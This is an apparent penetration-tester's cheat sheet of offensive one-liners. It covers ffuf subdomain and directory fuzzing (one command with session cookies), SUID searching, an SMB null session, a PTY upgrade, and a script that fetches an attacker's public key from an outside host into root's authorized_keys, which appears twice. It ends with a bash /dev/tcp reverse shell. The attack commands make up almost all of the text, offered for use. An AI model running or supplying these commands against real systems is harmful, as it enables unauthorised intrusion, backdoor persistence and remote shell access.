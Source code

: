 VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```

Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```

Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```

PTY
```
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
```

Process tree
```
ps -ef --forest 
```

SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Simple HTTP python
```
python3 -m http.server 8000
```

SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
SMBclient null sessions
```
smbclient //10.129.173.93/support-tools -U " "%" "
```
### Shells
```
bash -i >& /dev/tcp/192.168.30.90/8080 0>&1

```
